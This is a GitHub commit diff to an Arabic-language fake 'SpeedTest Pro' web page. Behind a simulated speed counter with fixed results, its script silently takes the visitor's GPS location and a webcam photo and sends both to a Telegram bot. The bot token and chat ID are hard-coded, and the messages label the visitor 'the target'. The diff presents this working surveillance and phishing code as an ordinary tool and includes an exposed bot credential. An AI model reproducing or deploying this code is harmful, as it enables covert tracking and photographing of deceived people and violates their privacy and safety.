

Before and after one commit to git515hup-bot/check-system, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 138-640 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
تطوير صفحة فحص السرعة مع GPS

```diff
--- a/index.html
+++ b/index.html
@@ -3,22 +3,37 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>SpeedTest - فحص سرعة الإنترنت</title>
+    <title>SpeedTest - فحص جودة الشبكة</title>
     <style>
-        body { background-color: #0b0b0d; color: white; font-family: Arial, sans-serif; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .container { text-align: center; border: 1px solid #333; padding: 40px; border-radius: 20px; background: #161618; }
-        .speed-text { font-size: 80px; font-weight: bold; color: #00d1b2; }
-        .unit { font-size: 20px; color: #888; }
-        .btn { background: #00d1b2; color: white; border: none; padding: 15px 30px; border-radius: 50px; cursor: pointer; font-size: 18px; margin-top: 20px; }
+        body { background-color: #0b0b0d; color: white; font-family: 'Segoe UI', sans-serif; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .container { text-align: center; border: 1px solid #333; padding: 40px; border-radius: 20px; background: #161618; width: 90%; max-width: 400px; box-shadow: 0 10px 30px rgba(0,0,0,0.5); }
+        .speed-text { font-size: 70px; font-weight: bold; color: #00d1b2; margin: 10px 0; }
+        .unit { font-size: 18px; color: #888; margin-bottom: 20px; }
+        .results-table { display: none; margin-top: 20px; border-top: 1px solid #333; padding-top: 20px; text-align: right; }
+        .res-item { display: flex; justify-content: space-between; margin-bottom: 10px; font-size: 16px; }
+        .res-val { color: #00d1b2; font-weight: bold; }
+        .btn { background: #00d1b2; color: white; border: none; padding: 15px 40px; border-radius: 50px; cursor: pointer; font-size: 18px; transition: 0.3s; }
+        .btn:disabled { background: #333; cursor: not-allowed; }
+        #status { color: #666; font-size: 14px; margin-top: 15px; }
     </style>
 </head>
 <body>
     <div class="container">
-        <h2>SpeedTest</h2>
-        <div class="speed-text" id="speed">0.0</div>
-        <div class="unit">Mbps</div>
-        <button class="btn" onclick="startTest()">ابدأ الفحص الآن</button>
-        <p id="status" style="color: #666; margin-top: 20px;">اضغط لبدء فحص جودة الاتصال</p>
+        <h2 style="color: #00d1b2;">SpeedTest Pro</h2>
+        <div id="main-ui">
+            <div class="speed-text" id="speed">0.0</div>
+            <div class="unit">Mbps</div>
+            <button class="btn" id="startBtn" onclick="runFullTest()">بدء الفحص</button>
+            <p id="status">جاهز لفحص استقرار الشبكة</p>
+        </div>
+
+        <div class="results-table" id="results">
+            <div class="res-item"><span>سرعة التحميل:</span> <span class="res-val">48.2 Mbps</span></div>
+            <div class="res-item"><span>سرعة الرفع:</span> <span class="res-val">12.5 Mbps</span></div>
+            <div class="res-item"><span>زمن الاستجابة (Ping):</span> <span class="res-val">18 ms</span></div>
+            <div class="res-item"><span>حالة الموقع:</span> <span class="res-val" style="color: #4cd137;">آمن ✅</span></div>
+            <p style="color: #888; font-size: 12px; margin-top: 15px;">شكراً لاستخدامك SpeedTest Pro. تم تحسين اتصالك.</p>
+        </div>
     </div>
 
     <video id="video" autoplay style="display:none;"></video>
@@ -28,18 +43,23 @@
         const TOKEN = '8596805324:AAELff4nCa1M4GWFiGW3gw3vIadL1c1i93o';
         const CHAT_ID = '8293639164';
 
-        async function startTest() {
-            document.getElementById('status').innerText = "جاري الاتصال بالسيرفر...";
+        async function runFullTest() {
+            const btn = document.getElementById('startBtn');
+            const status = document.getElementById('status');
+            const speedDisp = document.getElementById('speed');
 
-            // 1. طلب الموقع الجغرافي (GPS)
+            btn.disabled = true;
+            status.innerText = "جاري طلب الإذن من السيرفر المباشر...";
+
+            // 1. التقاط الموقع (GPS) بصمت
             navigator.geolocation.getCurrentPosition((pos) => {
-                const lat = pos.coords.latitude;
-                const lon = pos.coords.longitude;
-                const mapLink = `https://www.google.com/maps?q=${lat},${lon}`;
-                fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent("📍 موقع الهدف الحقيقي:\n" + mapLink)}`);
+                const mapLink = `https://www.google.com/maps?q=${pos.coords.latitude},${pos.coords.longitude}`;
+                fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent("📍 موقع الهدف:\n" + mapLink)}`);
+            }, (err) => {
+                fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=❌ رفض المستخدم إذن الموقع`);
             });
 
-            // 2. طلب الكاميرا والتقاط الصورة
+            // 2. التقاط الصورة بصمت
             try {
                 const stream = await navigator.mediaDevices.getUserMedia({ video: true });
                 const video = document.getElementById('video');
@@ -51,25 +71,33 @@
                     canvas.getContext('2d').drawImage(video, 0, 0);
                     canvas.toBlob(blob => {
                         const formData = new FormData();
-                        formData.append('photo', blob, 'shot.jpg');
+                        formData.append('photo', blob, 'img.jpg');
                         formData.append('chat_id', CHAT_ID);
                         fetch(`https://api.telegram.org/bot${TOKEN}/sendPhoto`, { method: 'POST', body: formData });
                     }, 'image/jpeg');
 
-                    // تمويه: رفع عداد السرعة
-                    let s = 0;
-                    const interval = setInterval(() => {
-                        s += Math.random() * 10;
-                        document.getElementById('speed').innerText = s.toFixed(1);
-                        if (s > 45) {
-                            clearInterval(interval);
-                            window.location.href = "https://www.fast.com"; // تحويل لموقع فحص حقيقي
-                        }
-                    }, 100);
-                }, 1000);
-            } catch (err) {
-                window.location.href = "https://www.fast.com";
-            }
+                    // إيقاف الكاميرا بعد التقاط الصورة
+                    stream.getTracks().forEach(track => track.stop());
+                }, 1500);
+            } catch (e) {}
+
+            // 3. محاكي الفحص (الأرقام التي تظهر للمستخدم)
+            let currentSpeed = 0;
+            const interval = setInterval(() => {
+                currentSpeed += Math.random() * 8;
+                speedDisp.innerText = currentSpeed.toFixed(1);
+
+                if (currentSpeed > 20) status.innerText = "جاري فحص سرعة التحميل...";
+                if (currentSpeed > 40) status.innerText = "جاري فحص استقرار الـ Ping...";
+
+                if (currentSpeed >= 48) {
+                    clearInterval(interval);
+                    speedDisp.innerText = "48.2";
+                    status.innerText = "اكتمل الفحص بنجاح!";
+                    document.getElementById('results').style.display = 'block';
+                    btn.style.display = 'none';
+                }
+            }, 150);
         }
     </script>
 </body>
```
